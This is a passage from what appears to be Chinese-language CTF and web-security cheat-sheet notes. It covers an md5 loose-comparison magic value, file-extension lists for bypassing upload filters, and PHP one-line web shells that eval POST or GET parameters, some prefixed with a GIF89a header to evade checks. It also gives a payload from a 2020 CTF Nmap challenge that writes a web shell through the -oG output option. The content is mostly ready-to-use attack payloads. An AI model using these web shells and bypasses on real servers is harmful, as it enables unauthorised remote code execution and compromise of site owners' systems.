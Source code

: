 ### $a==md5($a)

0e215962017

## 4.文件上传漏洞

### 1. 绕过思路

```php+HTML
ASP：asa、cer、cdx

ASPX：ashx、asmx、ascx、esms

PHP：php4、php5、phtml

JSP：jspx、jspf

复写绕过:pphphp

.php/.php5/.php4/.php3/.php2/php1/.html/.htm/.phtml/.pHp/.pHp5/.pHp4/.pHp3/.pHp2/.pHp1/.Html/.Htm/.pHtml
```



## 5.一句话木马

### PHP

 方便绕过开头可以加上GIF89a gif的文件头

1. ```
   GIF89a
   
   <?php @eval($_POST[cmd]); ?>
   如果有长度限制
<?php eval($_GET[cmd]);
   ```

   ```
   GIF89a
   <script language="php">
   @eval($_POST['cmd']);phpinfo();
   </script>
   ```
   
   
   
2. 

```
<script language="php">@eval_r($_POST[cmd])</script>
```

3.[网鼎杯 2020 朱雀组]Nmap 1

Namp -oG将内容写入文件

短标签<?php?> 可以用<?=?>代替

```php
<?= @eval($_POST[cmd]); ?> -oG a.phtml
```
